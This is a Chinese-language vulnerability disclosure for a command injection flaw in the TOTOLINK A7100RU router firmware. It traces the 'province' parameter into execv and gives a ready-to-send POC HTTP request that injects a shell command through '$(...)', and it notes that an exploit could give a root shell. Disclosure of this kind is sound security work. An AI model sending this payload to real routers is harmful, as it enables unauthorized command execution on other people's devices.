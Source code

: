 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps13.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720191931008](img/image-20220720191931008.png)

程序通过获取province参数下的内容传递给v11，之后将v11带入到Uci_Set_Str函数中

![image-20220720192030234](img/image-20220720192030234.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720192049650](img/image-20220720192049650.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/delStaticDhcpRules”,
"province":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps14.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps15.png) 

 